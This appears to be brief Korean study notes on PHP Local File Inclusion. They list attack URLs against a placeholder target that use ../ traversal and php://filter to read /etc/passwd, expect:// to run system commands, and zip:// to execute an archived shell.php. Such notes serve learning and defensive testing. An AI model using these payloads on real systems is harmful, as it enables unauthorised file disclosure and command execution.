 # File Inclusion Vulnerability

### LFI(Local File Inclusion)

../   
www.[공격할 웹사이트 주소].index.php?page=../../../etc/passwd/   

expect://   
system command를 실행시켜준다.  
www.[공격할 웹사이트 주소].index.php?page=expect://ls   

php://filter   
I/O 스트림을 다루는데 사용한다.  
convert옵션의 encode/decode을 사용하여 서버 안에 있는 문서를 열람할 수 있다.  
www.[공격할 웹사이트].index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd   

zip://   
zip파일의 압축을 풀고, 압축 푼 파일 안에 있는 코드를 실행할 수 있다.  
www.[공격할 웹사이트 주소].index.php?page=zip://file.zip#shell.php
